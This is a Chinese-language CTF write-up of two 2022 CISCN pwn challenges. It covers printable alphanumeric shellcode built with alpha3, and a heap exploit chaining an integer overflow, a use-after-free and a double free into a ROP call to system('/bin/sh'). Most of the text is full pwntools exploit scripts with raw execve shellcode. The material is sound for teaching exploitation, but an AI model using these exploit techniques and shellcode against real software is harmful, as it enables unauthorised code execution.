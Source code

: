 ```yaml
---
title: 2022 ciscn初赛 pwn Writeup
date: 2022-05-30 11:52:32 +0800
categories: [ctf比赛]
tags: [pwn, ctf]
permalink: /posts/id=24/
pin: false
---
```


![image-20220530115403566](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220530115403566.png)

## login-nomal(可视化shellcode)

一道类VMpwn，逆出输入方式，发现功能二会开辟一片可执行的空间，直接执行写入的shellcode，这里要绕过isprint，用Alpha3生成可供call跳转执行的可见字符shellcode

![image-20220530115617543](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220530115617543.png)

![image-20220529191312430](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220529191312430.png)

这里讲一下shellcode的生成

先clone一个编译好的alpha3

```bash
git clone https://github.com/TaQini/alpha3.git
```

生成一个shellcode文件

```python
from pwn import *
context.arch='amd64'
sc = shellcraft.sh()
print asm(sc)
```

```bash
python sc.py > shellcode
# 这里要在文件夹外生成，然后拖进alpha3文件夹即可
cd ~/alpha3
./shellcode_x64.sh rdx #利用脚本生成所<call 寄存器>的shellcode，x86同理
```

```python
# _*_ coding:utf-8 _*_
from pwn import *
context(arch='amd64', os='linux')
context.log_level = 'debug'

p = process('./login')
elf = ELF("./login")
libc = elf.libc
def dbg():
    gdb.attach(p)

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------
def send(con):
	sla(">>> ",con)

def login():
	send("opt: 1\n\r"+'msg: ro0t \n\r\n')

def exita():
	send("opt: 3\n\r"+'msg: eX1t \n\r\n')

def copy(con):
	send("opt: 2\n\r"+'msg: '+con+' \n\r\n')

login()
pay = 'Rh0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a071N00'
copy(pay)
p.interactive()
```

## newest_note(malloc int溢出)

添加权限，执行程序。添加debug信息，把glibc-all-in-one里下好的debug版本的.build放到/usr/lib/debug下。

```bash
sudo chmod +x newest_note
sudo chmod +x libc.so.6
sudo chmod +x ld-linux-x86-64.so.2

cd /usr/lib/debug
sudo mv .build-id/ .build-id.bak
cd ~
sudo mv ~/.build-id/ /usr/lib/debug
```

![image-20220530115802288](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220530115802288.png)

程序已经patch好了，漏洞点在于malloc时8*了一个int类型，造成溢出，从而实现申请小堆但idx极大，实现了任意地址泄露和任意地址写

![image-20220529191907619](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220529191907619.png)

UAF漏洞

![image-20220529192244648](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220529192244648.png)

利用任意地址泄露泄露出栈地址以及libc偏移，free+UAF以及key和heap_base，再用一个doublefree，劫持栈rip执行输入的rop链

```python
# _*_ coding:utf-8 _*_
from pwn import *
context(arch='amd64', os='linux', log_level='debug')

p = process('./newest_note')
# p = remote("39.107.153.91","30623")
elf = ELF("./newest_note")
libc = elf.libc

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def add(idx,con='a'):
    sla(": ",1)
    sla("Index: ",idx)
    p.sendafter('Content: ',con)

def show(idx):
    sla(": ",3)
    sla("Index: ",idx)

def dele(idx):
    sla(": ",2)
    sla("Index: ",idx)

sla("How many pages your notebook will be? :",str(0x20005000))
show(0x487f5)
stack_addr = uu64()
show(0x4899a)
libc_base = uu64() - 0x218cc0
lg("libc_base")
ret = 0x000000000002d9b9+libc_base
for i in range(10):
    add(i,"a"*0x30)

dele(0)

for i in range(6):
    dele(i+1)

show(0)
ru("Content: ")
key = u64(p.recv(5).ljust(8,'\x00'))
lg("key")
heap_addr = key << 12
lg("heap_addr")

dele(7)
dele(8)
dele(7)

for i in range(7):
    add(i,"a"*0x30)
add(7,p64((stack_addr-0x150-0x8) ^ key ))

add(0,"e4l4")
add(1,"e4l4")
pop_rdi = 0x000000000002e6c5 + libc_base
add(2,p64(0) +p64(ret)+ p64(pop_rdi) + p64(libc_base + libc.search("/bin/sh\x00").next()) + p64(libc_base + libc.sym["system"]) )
p.interactive()
```

